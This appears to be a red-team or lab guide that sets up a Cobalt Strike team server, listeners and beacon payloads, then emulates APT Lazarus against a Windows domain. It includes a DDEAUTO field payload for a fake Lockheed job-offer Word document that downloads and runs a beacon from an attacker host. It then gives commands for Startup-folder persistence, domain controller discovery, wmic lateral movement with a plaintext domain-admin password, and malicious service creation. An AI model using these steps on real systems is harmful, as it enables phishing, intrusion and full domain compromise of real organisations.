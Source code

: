 # **Setting up Cobaltstrike**

* Be root for the setup process.
```md
> sudo su
```
## Start Python3 http.server.
```md
> mkdir Downloads/beacons
> cd Downloads/beacons
> python3 -m http.server 8000
```
>***Note: This will be where your payloads are hosted. Or you could just host them through your cobalt strike instance which is simple. Figure it out yourself.***
## Start a team server
   *  (must be root / Sudo su) 

```md
> cd /usr/bin/cobaltstrike
> ip -br a
> ./teamserver <Ip_address> <password> 
# In a new tab, run the following commands to connect to the team server:
> cd /usr/bin/cobaltstrike
> ./cobaltstrike
# A prompt will appear
```
* Enter the `<eth1_ip_address>` of the teamserver and `password` in the appropriate boxes.

>***The User field can be changed to the name of the kali box, but it is unnecessary.***
* Click `Connect` then click Yes.

## Configure listeners

* Select the `Listeners` tab within the Cobalt Strike GUI. 
* Select `Add` at the bottom of the tab. A prompt will appear with the following options: 
  * Name: Enter the type of listener you are setting up. (HTTP)
  * Payload: Select the payload (.exe)
  * Hosts: Add hosts by clicking on the plus sign. A small prompt will appear.
  * Host(Stager): Type the domain set in your DNS server.
  * Profile: Default
  * Click Save


>***Note: SMB does not have these options.  Accept the defaults.***
## Build the payloads
* Select `Attacks` on the Menu Bar and then select `Packages`.
* Select the appropriate beacon type based on the table above.
* Select the "..." button next to “listener” and select the listener based on the table.
* Select the output based on the table above.
* Click on Generate
* Save the executable to the /root/Downloads/beacons directory using `"mss.exe"`
  * Repeat the above steps and name the next payloads `"mmc.exe and wuaueng.exe only make wuaueng a service executable"`

>***Note: Check the box x64: Use x64 payload (Since we know we are on windows 10 machines and x64 will be less prone to breaking)*** 

# **APT Lazarus**
***This APT is known to use Cobalt Strike***
* Browse to, Save, and Run mmc.exe on BLDG1-2-WS9 under user david.gercak (Domain Admin).
* Host your file using CS file host feature in attacks
* In microsoft word Create a word document on a victim machine and go to Insert > Quick Parts > Field… > Select “Formula” > Click “Ok:
* Add some random text(make it about a job offer/opportunity from Lockheed)
Highlight the text just added and Click “Toggle Field Codes”

* Paste: {DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord.exe\\..\\..\\..\\..\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe Invoke-WebRequest 'http://[IP:PORT/mmc.exe]' -Outfile 'C:\\Users\\david.gercak\\Desktop\\mmc.exe'; powershell.exe .\\C:\\Users\\david.gercak\\Desktop\\mmc.exe #"Manager Position"}
* save it and email it to david.gercak from a user of your choice
  * Once the beacon calls back interact with it and enter the following commands at an interval of your choice.

## Inside of the Initial beacon ( mmc.exe ) 

```md
> cd "C:\Users\david.gercak\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
> upload mss.exe
> powerpick ipconfig
> powerpick C:\Windows\System32\cmd.exe nltest/dsgetdc:meetech.com
# Used to discover the DC

> powerpick copy mss.exe "\\<IP of the DC>\C$\Users\david.gercak\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
# Copied over mss.exe to the DC's startup folder
> powerpick wmic /node:<ip of the DC>/user:david.gercak/password:Wc3MpE1+WoNta4Ef4 process call create "\\<IP of the DC>\C$\Users\david.gercak\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\mss.exe"
# Remotely started mss.exe on the DC
> link 11.25.15.2
```
## Inside the Link ( Now on the DC )
```md
> upload wuaueng.exe
# Make sure wuaueng.exe is a Windows Service Executable
> powerpick copy wuaueng.exe "C:\Windows\Temp\"
> powerpick sc.exe create <new_service_name> binPath= "C:\Windows\Temp\wuaueng.exe"
# Creates the service
> powerpick get-service -Name <service name>
# Make sure the service was created
> powerpick cmd.exe net start <service name>
# Start the service
```

>***Note:Macro embed this docx - Lockheed_Martin_JobOpportunities.docx***